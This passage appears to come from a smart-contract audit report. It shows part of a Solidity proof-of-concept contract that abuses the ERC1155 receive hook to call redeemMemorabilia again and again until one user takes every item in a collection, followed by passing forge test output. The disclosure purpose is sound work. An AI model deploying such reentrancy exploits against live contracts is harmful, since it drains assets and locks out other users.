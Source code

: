 ```solidity
        _beatToken = beatToken;
        _colectionId = colectionId;
        _maxSupply = maxSupply;
    }

    function exploit() external {
        _festivalPass.redeemMemorabilia(_colectionId);
    }

    function onERC1155Received (
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) external returns (bytes4) {

        // mint all items in the collection
        if (++_mint_amount < _maxSupply) {
            _festivalPass.redeemMemorabilia(_colectionId);
        }
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived (
        address,
        address,
        uint256[] calldata,
        uint256[] calldata,
        bytes calldata
    ) external pure returns (bytes4) {
        return this.onERC1155BatchReceived.selector;
    }

    function supportsInterface(bytes4 interfaceId) external pure returns (bool) {
        return interfaceId == type(IERC1155Receiver).interfaceId;
    }

    receive() external payable {
        
    }
}
```
PoC Results:
```
forge test -vv --match-test test_RedeemMemorabilia_DoS
[⠊] Compiling...
[⠑] Compiling 1 files with Solc 0.8.25
[⠃] Solc 0.8.25 finished in 712.73ms
Ran 1 test for test/FestivalPass.t.sol:FestivalPassTest
[PASS] test_RedeemMemorabilia_DoS() (gas: 1069835)
Logs:
  User 1 deploys exploit contract and redeems all items from collection
  User2 failed to redeem item

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.89ms (1.41ms CPU time)

Ran 1 test suite in 232.03ms (6.89ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
